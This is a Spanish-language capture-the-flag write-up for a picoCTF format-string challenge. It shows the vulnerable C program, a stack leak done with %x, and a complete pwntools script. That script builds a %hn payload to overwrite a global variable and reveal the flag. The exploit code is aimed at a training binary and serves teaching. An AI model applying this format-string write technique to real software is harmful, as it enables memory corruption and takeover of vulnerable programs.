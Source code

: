 #pwn #ctf #format_string

# Reconocimiento

Se nos da un binario y su código fuente:

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
char buf[1024];
char flag[64];

printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
fflush(stdout);
scanf("%1024s", buf);
printf("Here's your input: ");
printf(buf);
printf("\n");
fflush(stdout);

if (sus == 0x67616c66) {
	printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

	// Read in the flag
	FILE *fd = fopen("flag.txt", "r");
	fgets(flag, 64, fd);
	
	printf("%s", flag);
		fflush(stdout);
}
else {
	printf("sus = 0x%x\n", sus);
	printf("You can do better!\n");
	fflush(stdout);
}

	return 0;
}
```

Nos damos cuenta que es vulnerable a un [[format string]]. Lo que debemos hacer es que la variable *sus* valga *`0x67616c66`*. Para ello debemos aprovecharnos de la vulnerabilidad.

# Explotación

Primero debemos ver dónde se guarda la variable *sus*, para ello utilizaremos [[readelf]]:

```bash
readelf -s vuln | grep sus
```
```bash
28: 0000000000404060     4 OBJECT  GLOBAL DEFAULT   25 sus
```

Además debemos ver dónde se guarda nuestro input. Si mandamos una cadena de `%x`:

```bash
./vuln
```
```vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Here's your input: 402075.0.0.402073.19872a80.7dfecd80.198aa8c8.2.1989fb50.1.0.1.1989f160.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.0.0.1989f160.d.19872198.7dfed1e8.403e18.198d3020.198b0d3e.1.0.
sus = 0x21737573
You can do better!
```

Vemos que a partir de la posición 14 se empieza a repetir el valor *`252e7825`* (`%x`). Con esta información podemos crear un script con [[python]] y [[pwntools]] para resolver el reto:

```python
from pwn import *

binary = './vuln'
elf = ELF(binary)

def start():
    if args.REMOTE:
        return remote('saturn.picoctf.net', 53607)
    else: return process(binary)

# Lo primero es la dirección que tendremos que dividir en dos,
# ya que como tenemos que escribir ese numero de caracteres,
# hacerlo de una requeriria imprimir 404060 carcteres
addr_low = b'\x60\x40\x40\x00\x00\x00\x00\x00'
addr_high  = b'\x62\x40\x40\x00\x00\x00\x00\x00'

# Dividimos también el valor 0x67616c66
out_high = 0x6761
out_low  = 0x6c66

# Como los bytes altos son mayores, deberiamos escribir eso primero,
# ya que %n es acumulativo (imprimimos out_high caracteres y guardamos el valor,
# después los que quedan para out_low y guardamos).
n1 = out_high 
n2 = out_low - n1

# El ataque será algo así:
# %[value]c%[index]$[write_type][padding][address]
# 
# The padding is to align the addresses with the printf arguments (tienen que ser multiplos de 8).

#         first print & write    second print & write   padding    addr # 1    addr # 2
payload = b'%%%dx%%18$hn' % n1 + b'%%%dx%%19$hn' % n2 + b'\00'*7 + addr_high + addr_low
#%d -> añade n1 como un valor decimal ; %% -> representacion de %

r = start()

r.recvuntil(b'?\n')

r.sendline(payload)

r.recvline() # This line is going to be thousands of chars
print(r.recvall().decode())
```
> *`hn`* permite escribir de dos en dos bytes

Al ejecutarlo imprimirá la flag!